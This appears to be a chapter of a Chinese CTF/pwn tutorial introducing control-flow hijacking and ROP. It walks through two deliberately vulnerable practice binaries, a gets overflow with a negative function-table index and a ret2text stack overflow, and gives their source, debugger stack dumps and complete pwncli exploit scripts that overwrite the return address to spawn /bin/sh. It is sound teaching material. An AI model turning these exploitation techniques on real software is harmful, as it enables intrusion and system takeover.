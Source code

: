 # 1.3.1 ROP 介绍

>   ROP，即 return oriented programming（返回导向编程），关键在于劫持程序控制流后，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

## 控制流劫持

>   在二进制安全中，大部分的漏洞利用方式是劫持控制流，接着使程序按照攻击者的攻击思路运行下去。控制流劫持是一种危害性极大的攻击方式，攻击者能够通过它来获取目标机器的控制权，甚至进行提权操作，对目标机器进行全面控制。当攻击者掌握了被攻击程序的内存错误漏洞后，一般会考虑发起控制流劫持攻击。
>
>   控制流的劫持意味着攻击者劫持了 PC（program counter）寄存器，从存在漏洞的程序到控制流劫持也是 pwn 的重点，实现这一目标的方法有很多，但总是离不开跳转（包括函数返回、函数指针的调用等）。

### 例题 chp1-0-hellopwner

先来看一个简单的例子，这也是本章真正意义上的第一道 pwn 题（见[附件文件夹-chp1-0-hellopwner](../attachments/chp1-0)）：

>   读者可以尝试先不看源码，把 elf 文件拖到 ida64 中试试能不能自己找到漏洞所在。
>
>   这里给一点提示：这个程序中有不只一处漏洞，读者可以关注：`对读入的字符串处理不当导致的缓冲区溢出` 以及 `对整数处理不当导致的负数溢出`。

回到这个例子中，由于编译时采用了 `-static -no-pie` 的选项，因此地址都是固定的，这无疑给我们的利用带来了很大的便利：利用漏洞劫持控制流时，可以直接来到目标函数处，而不需要额外的手段去泄露程序地址和 libc 地址。

而主要漏洞出现在 get_a_num 函数中：

```c
__int64 get_a_num()
{
  gets(input);
  return atoi(input);
}
```

这里需要注意的一点是，gets 函数往往是造成缓冲区溢出的罪魁祸首，它在遇到字符串中的 `\x00` 等字符时并不会停下，而会一直向缓冲区中读入数据直到换行符的出现。

以及 run 函数中：

```c
// ...
int cmd;
// ...
cmd = get_a_num();
// ...
return ((__int64 (__fastcall *)(__int64, _QWORD, _QWORD))cmdtb[cmd])(buf_0, v17, v15);
```

也就是说这里 cmd 是一个 int 类型，可以为负数，这就导致了调用函数指针 `cmdtb[cmd]()` 时能调用它前面的缓冲区上，来到 .bss 段上发现 cmdtb 前面正是上面 gets 的缓冲区：

```sh
.bss:00000000004C4300                 public input
.bss:00000000004C4300 ; u32 input[64]
.bss:00000000004C4300 input           dd 40h dup(?)           ; DATA XREF: get_a_num+8↑o
.bss:00000000004C4300                                         ; get_a_num+19↑o
.bss:00000000004C4400                 public cmdtb
.bss:00000000004C4400 ; __int64 cmdtb[]
.bss:00000000004C4400 cmdtb           dq ?
```

于是很自然地可以想到，用 get_a_num 控制输入，用 cmdtb 对函数指针的调用去劫持程序控制流。

回到函数列表中，发现本道例题设计时提供了一个名为 flag1 的函数但是并没有被调用，那我们只需要按照上述思路劫持控制流到 flag1 的地址即可，exp_flag1.py 如下：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port
from pwncli import *
cli_script()

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")
def cmd(data):
    ru(b'cmd> ')
    sl(data)
def call_func(data, idx, key=b""):
    cmd(data)
    ru(b'offset: ')
    sl(i2b(idx))
    if data[:2] == b"1\x00":
        ru(b'data: ')
        sl(key)

call_func(b"-31\x00".ljust(8, b"\x00") + p64(elf.symbols["flag1"]), 0)
ia()
```

读者也可以跟着 gdb 调试一下，把断点设置在 `0x401f36 <run+189>    call   r8` 的地方，就可以看到程序的 rip 寄存器确实被劫持到了 flag1 函数的地方继续执行。

>   当然这不是这道题的全部，读者也可以考虑：我们能否利用其它办法，完全获取这个程序的控制权，让它运行我们的恶意代码（shellcode）呢？

---

## ret2text

>   经过上面的例子，读者已经初步了解了程序的执行流程是怎么回事，接下来回到本章主题 ROP 上。

rop 中的 R 代表 return，即函数返回时调用的汇编语句 ret，读者不妨结合 [0.4 程序是怎么运行的](../0.准备工作/0.4.elf.md) 中对函数调用机制的介绍来进行思考：既然函数返回地址是存放在栈上的，若攻击者通过程序漏洞在函数里面修改了该函数的返回地址会发生什么？

下面给出例题，读者不妨构造不同的输入，结合调试进行思考：

### 例题 chp1-1-ret2text

例题代码很简单，这里给出源码：

```c
// compiled with: gcc -no-pie -fno-stack-protector ./ret2text.c -o ./ret2text
// author: @eastXueLian
// date:   2023-03-25

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void gift() {
    asm("pop %rax");
    system("/bin/sh");
}
int main() {
    char buf[0x20];
    puts("Give me your data: ");
    read(0, buf, 0x100);
    return 0;
}
```

值得注意的是，这里编译时选项 -no-pie 关闭了地址随机化的保护，-fno-stack-protector 选项关闭了栈上 canary 的保护，这免除了我们泄露地址和 canary 的麻烦。

main 函数中是存在栈溢出漏洞的：栈上缓冲区 buf 长度为 0x20，而接下来用 read 函数读入了 0x100 个字节的内容，可以使用 gdb 进行调试，随便敲几个 a 进去，得到程序读取输入后栈布局如下：

```sh
pwndbg> stack
00:0000│ rsi rsp 0x7ffd7906b370 ◂— 'aaaaaaaaaa\n'
01:0008│         0x7ffd7906b378 ◂— 0xa6161 /* 'aa\n' */
02:0010│         0x7ffd7906b380 —▸ 0x7ffd7906b480 ◂— 0x1
03:0018│         0x7ffd7906b388 ◂— 0x0
04:0020│ rbp     0x7ffd7906b390 ◂— 0x0
05:0028│         0x7ffd7906b398 —▸ 0x7fe443e13083 (__libc_start_main+243) ◂— mov    edi, eax
06:0030│         0x7ffd7906b3a0 —▸ 0x7fe44402e620 (_rtld_global_ro) ◂— 0x50f5500000000
```

上面 rsi 和栈顶指针 rsp 都指向 buf 的起始地址，栈底指针 rbp 指向 rsp+0x20 的位置，而 rbp 再下面一个位置明显指向一段代码，这就是返回地址了。

>   函数中局部变量大小为 0x20 个字节，而返回地址却在 rsp+0x28 的位置，那 rsp+0x20 的位置，即 rbp 现在所指的位置上放着什么？
>
>   事实上，这个位置是存放上个函数 rbp 的，这在章节 0.4 中已经有所介绍，对此感到疑惑的同学可以参考前面的内容来理解栈帧的结构。
>
>   由于 main 函数此时是程序中调用的第一个有完整栈帧结构的函数，因此 rbp 所指内存地址上的值是 0.

本例中我们使用一些字符来占位，最终实现修改函数返回地址的目标，exp.py 如下：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8)
payload += p64(elf.symbols['gift'])
s(payload)

ia()
```

可以进行调试，发现 read 过后栈上布局如下：

```sh
│pwndbg> stack
00:0000│ rsi rsp 0x7ffd5ad25db0 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓            4 skipped
05:0028│         0x7ffd5ad25dd8 —▸ 0x401176 (gift) ◂— endbr64
06:0030│         0x7ffd5ad25de0 —▸ 0x7f74b9060620 (_rtld_global_ro) ◂— 0x50f5500000000
```

可以看到返回地址已经成功被覆盖为 gift 函数的地址，继续运行即可劫持程序执行流程到 gift 函数中，最终 getshell.

上面我们劫持控制流，使程序返回到代码段已有函数的技巧也被称作 ret2text.

---
